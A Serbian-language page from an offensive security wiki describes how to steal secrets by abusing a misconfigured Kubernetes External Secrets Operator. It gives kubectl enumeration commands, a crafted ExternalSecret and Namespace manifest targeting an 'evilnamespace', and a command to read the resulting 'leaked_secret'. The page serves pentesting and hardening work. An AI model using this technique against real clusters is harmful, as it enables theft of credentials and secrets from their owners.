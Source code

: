 # Spoljni operator tajni

**Originalni autor ove stranice je** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ova stranica pruža neke smernice o tome kako možete uspeti da ukradete tajne iz nepravilno konfigurisanog ESO-a ili aplikacije koja koristi ESO za sinhronizaciju svojih tajni.

## Odricanje od odgovornosti

Tehnika prikazana u nastavku može raditi samo kada su ispunjeni određeni uslovi. Na primer, zavisi od zahteva potrebnih da se dozvoli sinhronizacija tajne u namespace-u koji posedujete / kompromitovali ste. Morate sami da to shvatite.

## Pretpostavke

1. Pristup u kubernetes / openshift klasteru sa administratorskim privilegijama na namespace-u
2. Pravo čitanja bar jednog ExternalSecret-a na nivou klastera
3. Otkrijte da li postoje potrebne oznake / anotacije ili članstvo u grupi potrebno koje omogućava ESO-u da sinhronizuje vašu tajnu. Ako imate sreće, možete slobodno ukrasti bilo koju definisanu tajnu.

### Prikupljanje informacija o postojećem ClusterSecretStore-u

Pretpostavljajući da imate korisnika koji ima dovoljno prava da čita ovaj resurs; počnite tako što ćete prvo navesti postojeće _**ClusterSecretStore**_-ove.
```sh
kubectl get ClusterSecretStore
```
### Enumeracija spoljnih tajni

Pretpostavimo da ste pronašli ClusterSecretStore nazvan _**mystore**_. Nastavite tako što ćete izlistati njegove povezane spoljne tajne.
```sh
kubectl get externalsecret -A | grep mystore
```
_Ovaj resurs je ograničen na prostor imena, pa ako već ne znate u kojem prostoru imena da tražite, dodajte opciju -A da pretražite sve prostore imena._

Trebalo bi da dobijete listu definisanih spoljnih tajni. Pretpostavimo da ste pronašli objekat spoljne tajne nazvan _**mysecret**_ definisan i korišćen u prostoru imena _**mynamespace**_. Prikupite još malo informacija o vrsti tajne koju čuva.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Sastavljanje delova

Odavde možete dobiti ime jednog ili više imena tajni (kao što je definisano u resursu Secret). Dobićete izlaz sličan ovom:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
### Trenutno imamo:

* Ime ClusterSecretStore-a
* Ime Spoljnog tajnog ključa
* Ime tajnog ključa

Sada kada imamo sve što nam je potrebno, možete kreirati Spoljni tajni ključ (i eventualno ažurirati/kreirati novi Namespace kako bi se ispunili preduslovi potrebni za sinhronizaciju vašeg novog tajnog ključa):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Nakon nekoliko minuta, ako su ispunjeni uslovi sinhronizacije, trebalo bi da možete videti procurjelu tajnu unutar vašeg namespace-a.
```sh
kubectl get secret leaked_secret -o yaml
```
## Reference

{% embed url="https://external-secrets.io/latest/" %}

{% embed url="https://github.com/external-secrets/external-secrets" %}
